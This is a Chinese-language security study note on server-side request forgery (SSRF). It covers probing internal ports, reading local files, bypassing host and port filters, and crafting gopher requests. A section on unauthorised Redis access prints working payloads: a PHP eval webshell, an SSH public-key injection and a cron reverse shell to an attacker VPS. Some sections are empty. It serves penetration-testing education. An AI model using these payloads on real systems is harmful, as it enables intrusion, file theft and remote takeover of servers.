



- [漏洞原理](#漏洞原理)
- [可以做什么](#可以做什么)
- [常利用的相关协议](#常利用的相关协议)
- [漏洞相关的函数](#漏洞相关的函数)
- [限制方法及如何绕过](#限制方法及如何绕过)
- [Gopher协议的应用](#gopher协议的应用)
  - [协议内容](#协议内容)
  - [发送请求](#发送请求)
- [攻击内网Redis](#攻击内网redis)
  - [Redis未授权访问漏洞](#redis未授权访问漏洞)
- [Gopher协议攻击Struts2框架](#gopher协议攻击struts2框架)
- [File协议利用](#file协议利用)
- [参考链接](#参考链接)

## 漏洞原理
SSRF(Server-Side Request Forgery，服务端请求伪造攻击)。

即是一种由攻击者构造请求，由服务端发出请求的漏洞。即攻击者虽然没有服务器的权限，但利用ssrf漏洞，以服务器的身份发送一条构造好的请求发送给内网。

该漏洞形成的原因大多是因为服务端可以**向所在网络的其他服务器应用**获取数据的功能，但没有对请求地址做过滤和限制。

相当于把可访问的服务器当成一个中间跳板，访问内部的其他主机。

**攻击目标**：通常针对外部网络无法直接访问的内部系统。



**容易出现的地方**：

1.社交分享功能：获取超链接的标题等内容进行显示

2.转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览

3.在线翻译：给网址翻译对应网页的内容

4.图片加载/下载：例如富文本编辑器中的点击下载图片到本地；通过URL地址加载或下载图片

5.图片/文章收藏功能：主要其会取URL地址中title以及文本的内容作为显示以求一个好的用具体验

6.云服务厂商：它会远程执行一些命令来判断网站是否存活等，所以如果可以捕获相应的信息，就可以进行ssrf测试

7.网站采集，网站抓取的地方：一些网站会针对你输入的url进行一些信息采集工作

8.数据库内置功能：数据库的比如mongodb的copyDatabase函数

9.邮件系统：比如接收邮件服务器地址

10.编码处理, 属性信息处理，文件处理：比如ffpmg，ImageMagick，docx，pdf，xml处理器等

11.未公开的api实现以及其他扩展调用URL的功能：可以利用google 语法加上这些关键字去寻找SSRF漏洞
一些的url中的关键字：share、wap、url、link、src、source、target、u、3g、display、sourceURl、imageURL、domain……

12.从远程服务器请求资源（upload from url 如discuz！；import & expost rss feed 如web blog；使用了xml引擎对象的地方 如wordpress xmlrpc.php）

**挖掘思路**：

1、根据SSRF漏洞特征，挖掘方法有二：

- 数据层面需要关注的关键字段是URL、IP地址、链接等，关键字有：share、wap、url、link、src、source、target、u、3g、display、sourceURl、imageURL、domain……
- 业务层面需关注任何通过URL进行资源调用（入）或向外发起网络请求（出）的功能，如通过url文件上传下载处是存在SSRF最多的场景。其他具体业务场景包括：内容展示、社交分享、在线翻译、收藏功能、WebMail邮箱、各种处理工具（FFpmg）等

2、探测是否存在漏洞，方法有二：

- 请求包中将参数更改为不同的IP / DNS或TCP端口，观察返回包长度、返回码、返回信息及响应时间，不同则可能存在SSRF漏洞；
- 请求自己的公网服务器（或CEYE），使用nc –lvp监听请求。


## 可以做什么
* 可以对外网服务器所在的内网、本地进行端口扫描，获取运行服务的版本信息 。
  * 利用http协议和dict协议进行探测
  * ?url=http://127.0.0.1:8000  变换不同的端口，能否访问，来判断内网开放了哪些端口
  * ?url=dict://127.0.0.1:6379/info  redis
  * ?url=dict://127.0.0.1:80/info  http
  * ?url=dict://127.0.0.1:22/info  ssh
* 探测内网主机存活
  * 先读取etc/hosts  /proc/net/arp  /proc/net/fib_trie等文件，来获取目标主机的内网网段
  * 然后在进行爆破
* 攻击运行在内网或者本地的应用程序。
* 对内网web应用进行指纹识别，通过访问默认文件实现 。
  * 用于识别企业内部的资产信息
* 攻击内外网的web应用。sql注入、struct2等。
  * 主要使用HTTP GET/POST请求就可以实现的攻击
  * 向内网主机发送精心构造的数据包payload进行攻击。
* 利用file协议读取服务器本地文件等。
  * ssrf.php?url=file:///etc/passwd
  * ssrf.php?url=file:///var/www/html/flag.php  进而获取网页源码

## 常利用的相关协议

* file://  从文件系统中获取文件内容
  * 利用file协议可以读取任意文件的内容
  * eg:ssrf.php?url=file:///etc/passwd
* dict://  字典服务器协议  可访问更多字典源 
  * 在SSRF中获取目标服务器上运行的服务版本信息
  * 泄露安装软件版本信息
* gopher://   分布式文档传递服务  通过控制访问的URL可实现向指定的服务器发送任意内容
  * 可先拦截get、post请求包，构造成符合gopher协议格式的请求。

## 漏洞相关的函数

* 读取文件
  * readfile()
  * file_get_contents()：可获取本地文件和远程文件
  * 传入参数为文件路径，若不加限制，就可读取服务器上任意文件。
* fsockopen()
  * 打开网络连接，初始化套接字连接到指定主机
  * 实现对用户指定url数据的获取，该函数使用socket（端口）跟服务器建立tcp连接，传输数据。
  * fsockopen($host, intval($port), $errno, $errstr, 30);
  * 变量host为主机名，port为端口，errstr表示错误信息将以字符串的信息返回，30为时限
* curl_exec()
  * curl_init()先初始化会话，然后curl_setopt()设置各种参数，curl_exec()执行
  * 使用条件：
    * php版本>=5.3
    * 开启extension=php_curl.dll
    * --wite-curlwrappers

## 限制方法及如何绕过

- 限制请求的端口只能为web端口，只允许访问http、https请求
  - **利用不存在的协议头绕过**
    - file_get_contents() include() 在遇到不认识的协议头时候会将这个协议头当做文件夹，造成目录穿越漏洞
    - eg:ssrf.php?url=httpsssss://../../../../../../etc/passwd
- 限制域名为指定域名设置URL    白名单或限制内网IP   eg:www.baidu.com
  - **利用HTTP基本身份认证的方式绕过**
    - eg:http://www.baidu.com@www.evil.com
    - --》eg:http://www.baidu.com@www.evil.com
  - **利用curl和parse_url的解析差异绕过指定host**
    - ssrf.php?url=http://@127.0.0.1:80@www.baidu.com/flag.php
  - 
- 限制对域名127.0.0.1的访问
  - **利用302跳转（禁止302跳转，或者每次跳转都检查新的Host是否是内网IP，直至抵达最后的网址）**
    - 特殊网站 [http://xip.io](http://xip.io/)  [http://nip.io](http://nip.io/) http://sslip.io
      - eg:http://127.0.0.1.xip.io/flag.php
    - 短地址跳转绕过
      - eg:https://4m.cn/ 生成目标地址的短地址
  - **进制转换**（127.0.0.1）
    - 十进制 2130706433
    - 八进制  0177.0.0.1
    - 十六进制 0x7f.0.0.1
  - **其他指向127.0.0.1的地址**
    - http://localhost/ # localhost就是代指127.0.0.1
    - http://0/ # 0在window下代表0.0.0.0，而在liunx下代表127.0.0.1
    - http://[0:0:0:0:0:ffff:127.0.0.1]/ # 在liunx下可用，window测试了下不行
    - http://[::]:80/ # 在liunx下可用，window测试了下不行
    - http://127。0。0。1/ # 用中文句号绕过
    - http://①②⑦.⓪.⓪.①
    - http://127.1/http://127.00000.00000.001/ # 0的数量多一点少一点都没影响，最后还是会指向127.0.0.1
- 限制或禁止某些端口的访问
  - **利用readfile和parse_url函数的解析差异性**
  - ssrf.php?url=127.0.0.1:11211:80/flag.txt 
  - 限制只能访问80端口，但实际访问的11211端口
  - 

## Gopher协议的应用
### 协议内容

协议格式：**gopher://\<IP\>:\<port\>/_{TCP/IP数据流}**（注意有_ 作为连接字符，可使用其他任意字符作为连接符）

**gopher协议的实现：**

gopher会将后面的数据部分发送给相应的端口，这些数据可以是字符串，也可以是其他的数据请求包，比如GET，POST请求，redis，mysql未授权访问等，同时数据部分必须要进行url编码，这样gopher协议才能正确解析。

### 发送请求
1.**发送HTTP GET请求**

  主要有三步：
   1. 构造HTTP数据包
   2. url编码、替换回车换行为%0d%0a，HTTP包最后加%0d%0a表示消息结束
   3. 发送Gopher协议，IP后一定要加端口（默认端口70）

> 普通GET型HTTP包如下：
>
> curl gopher://192.168.109.166:80/_GET /get.php?param=Konmu HTTP/1.1Host:192.168.109.166%0d%0a      
>
> 进行URL编码：
> 主要变化：
>
> ？ 被转换成了 %3f
>
> 换行被转换成了 %0d%0a
>
> 空格 被转换成了 %0d
>
> 变换后：
>
> curl gopher://192.168.109.166:80/_GET%20/get.php%3fparam=Konmu%20HTTP/1.1%0d%0aHost:192.168.109.166%0d%0a

​2. **发送HTTP POST请求**

  有4个**必要参数**：Content-Type、Content-Length、host、post

> POST请求包如下：
>
> POST /ssrf/base/post.php HTTP/1.1
>
> host:192.168.0.109
>
> Content-Type:application/x-www-form-urlencoded
>
> Content-Length:11 
> 
> （此处有一个换行）                                              
> 
> name=Margin
>
> 编码后：
>
> curl gopher://192.168.0.109:80/_POST%20/ssrf/base/post.php%20HTTP/1.1%0d%0AHost:192.168.0.109%0d%0AContent-Type:application/x-www-form-urlencoded%0d%0AContent-Length:11%0d%0A%0d%0Aname=Margin%0d%0A

## 攻击内网Redis
### Redis未授权访问漏洞
Redis是一个key-value存储系统。Redis（Remote Dictionary Server )，即远程字典服务，是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。
Redis 在默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在**没有设置密码认证（一般为空）**，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的 config 命令，可以进行写文件操作，攻击者可以成功将自己的ssh公钥写入目标服务器的 /root/.ssh 文件夹的 authotrized_keys 文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器。，也可以直接写入Webshell或者写入计划任务进行反弹shell。

**漏洞产生原因：**

（1）Redis绑定在0.0.0.0:6379，且没有添加防火墙规则避免非信任来源ip访问等安全策略，导致其直接暴露在公网

（2）没有设置密码认证或弱密码，导致可以免密登录redis服务

**修复建议：**
  1. 禁止外部访问Redis服务端口
   
  2. 禁止使用root权限启动redis服务
	
  3. 配置安全组，限制可连接redis服务器的IP

**危害：**

以下是各种攻击使用的redis命令，但还需具体编码利用gopher协议，执行相应操作

```python 
  def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))  # 每一条命令由几个字符串组成
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x)))+CRLF+x  # 格式为 \r\n$3\r\nget
        # cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd
```

1. **基于未授权向redis写入webshell**
   
   **需要满足的条件**：
   - 知道网站绝对路径，需要增删改查权限
   - root启动redis
   - redis弱密码或者无密码

   下面是具体需要执行的命令。
   ```
    flushall
    set 1 '<?php eval($_POST["whoami"]);?>'
    config set dir /var/www/html
    config set dbfilename shell.php
    save
   ```
   
   但实际中，redis-cli在对redis执行命令时，网络传输的数据时序列化后的协议数据，序列化的数据如下：
   具体的payload格式类似下面：
   ```
    gopher://127.0.0.1:6379/_*1
    $8
    flushall
    *4
    $3
    set
    $1
    1
    $7


    <?php
    $27
    eval($_POST["whoami"]);?>


    *4
    $6
    config
    $3
    set
    $3
    dir
    $13
    /var/www/html
    *4
    $6
    config
    $3
    set
    $10
    dbfilename
    $9
    shell.php
    *1
    $4
    save
    *1
    $4
    quit
   ```

2. **写入SSH公钥实现ssh免密登录**
   **需要满足两个条件：**
   - redis以root身份运行
   - 服务器开放了SSH服务，而且允许使用密钥登录
   ```
    flushall
    set 1 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDrCwrA1zAhmjeG6E/45IEs/9a6AWfXb6iwzo+D62y8MOmt+sct27ZxGOcRR95FT6zrfFxqt2h56oLwml/Trxy5sExSQ/cvvLwUTWb3ntJYyh2eGkQnOf2d+ax2CVF8S6hn2Z0asAGnP3P4wCJlyR7BBTaka9QNH/4xsFDCfambjmYzbx9O2fzl8F67jsTq8BVZxy5XvSsoHdCtr7vxqFUd/bWcrZ5F1pEQ8tnEBYsyfMK0NuMnxBdquNVSlyQ/NnHKyWtI/OzzyfvtAGO6vf3dFSJlxwZ0aC15GOwJhjTpTMKq9jrRdGdkIrxLKe+XqQnjxtk4giopiFfRu8winE9scqlIA5Iu/d3O454ZkYDMud7zRkSI17lP5rq3A1f5xZbTRUlxpa3Pcuolg/OOhoA3iKNhJ/JT31TU9E24dGh2Ei8K+PpT92dUnFDcmbEfBBQz7llHUUBxedy44Yl+SOsVHpNqwFcrgsq/WR5BGqnu54vTTdJh0pSrl+tniHEnWWU= root@whoami
    '
    config set dir /root/.ssh/
    config set dbfilename authorized_keys
    save
    (quit)
   ```

   密钥验证大致过程如下：
   - 客户端生成私钥和公钥，并把公钥拷贝给服务器端
   - 客户端发起登录请求，发送自己的相关信息
   - 服务器端根据客户端发来的信息查找是否存有该客户端的公钥，若没有拒绝登录，若有则生成一段随机数使用该公钥加密后发送给客户端
   - 客户端收到服务器发来的加密后的消息后使用私钥解密，并把解密后的结果发给服务器用于验证
   - 服务器收到客户端发来的解密结果，与自己刚才生成的随机数比对，若一样则允许登录，不一样则拒绝登录
   
   具体实现过程：
   - 生成公钥：`ssh-keygen -t rsa`
   - 利用上面的命令将公钥写入redis服务器
   - 远程登录：`ssh -i id_rsa root@IP`


3. **写定时任务反弹shell**
   
   **使用条件**：在权限足够的情况下，使用redis写入文件到计划任务目录下执行。

   ```
    flushall
    set 1 '\n\n*/1 * * * * bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1\n\n'
    config set dir /var/spool/cron/
    config set dbfilename root
    save
    ​
    // 47.xxx.xxx.72为攻击者vps的IP
   ```

4. **基于主从复制实现RCE**
   Redis提供主从模式，主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式。

   ```

   ```

## Gopher协议攻击Struts2框架


## File协议利用


## 参考链接


- [漏洞复现与利用](https://www.cnblogs.com/bmjoker/p/9548962.html)  介绍了三种利用方式，python脚本自动化测试

- [SSRF漏洞原理、挖掘技巧及实战案例全汇总](https://cloud.tencent.com/developer/article/1516352)

- [利用ssrf来getshell](https://www.anquanke.com/post/id/197431)